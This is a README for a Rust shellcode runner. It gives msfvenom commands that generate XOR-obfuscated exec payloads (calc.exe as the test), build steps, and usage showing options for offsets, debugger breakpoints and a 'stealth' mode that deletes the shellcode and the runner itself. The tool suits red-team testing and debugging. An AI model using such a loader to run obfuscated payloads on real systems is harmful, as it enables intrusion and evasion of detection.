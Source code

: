 # rs-shellcode

A shellcode runner write in Rust.

# how to use it

Install [rustup](https://rustup.rs/).

```sh
rustup default
```

Use msfvenom generate shellcode for test.

```sh
msfvenom -p windows/x64/exec CMD=calc.exe  --platform win -f raw -o calc64.raw
```

XOR obfuscated payload.
```sh
msfvenom --platform windows --arch x64  -p windows/x64/exec CMD=calc.exe -f raw --encrypt xor --encrypt-key "\x55"
```

XOR obfuscated payload for linux.
```sh
sfvenom --platform linux --arch x64  -p linux/x64/exec  -f python --encrypt xor --encrypt-key "\x55"
```

Build:

```sh
cargo build --release
```

On linux using [cross](https://github.com/cross-rs/cross):
```sh
cross build -r --target=x86_64-pc-windows-gnu
```

Usage:
```
Usage: rs_shellcode [OPTIONS] --file <file>

Options:
  -f, --file <file>      shellcode path
  -b, --breakpoint       set breakpoint in debugger
  -o, --offset <offset>  shellcode offset
  -x, --xor <xor>        deobfuscate with XOR encoding
  -s, --stealth          removes shell code and itself
  -h, --help             Print help
  -V, --version          Print version
```

Run:

```sh
./target/debug/rs_shellcode.exe -f <SHELLCODE_PATH>
```

When your shellcode not start at offset 0, you can specify the offset use `-o`:

```sh
./target/debug/rs_shellcode.exe -f <SHELLCODE_PATH> -o 0x30
```


Run with breakpoint flag (`-b`):

```sh
./target/debug/rs_shellcode.exe -f <SHELLCODE_PATH> -b
```

use this flag, you can break just before your shellcode in the debugger, which will make your life easier.

![breakpoint in windbg](./breakpoint.png)